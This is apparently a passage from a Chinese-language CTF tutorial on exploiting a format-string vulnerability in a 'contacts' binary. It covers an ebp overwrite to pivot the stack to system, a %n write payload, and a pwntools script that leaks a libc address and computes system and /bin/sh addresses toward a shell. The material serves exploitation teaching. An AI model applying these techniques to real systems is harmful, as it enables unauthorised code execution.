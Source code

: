 payload修改为这样的话，还需要在heap上加入12的偏移。这样保证了0截断出现在泄露之后。

#### 修改ebp

由于我们需要执行 move 指令将 ebp 赋给 esp，并还需要执行 pop ebp 才会执行 ret 指令，所以我们需要将 ebp 修改为存储 system 地址 -4 的值。这样 pop ebp 之后，esp 恰好指向保存 system 的地址，这时在执行 ret 指令即可执行 system 函数。

上面已经得知了我们希望修改的 ebp 值，而也知道了对应的偏移为 11，所以我们可以构造如下的 payload 来进行修改相应的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

#### 获取shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5，退出程序即会执行 ret 指令，就可以获取 shell。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


## get system addr & binsh_addr
payload = '%31$paaaa'
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
##gdb.attach(sh)

```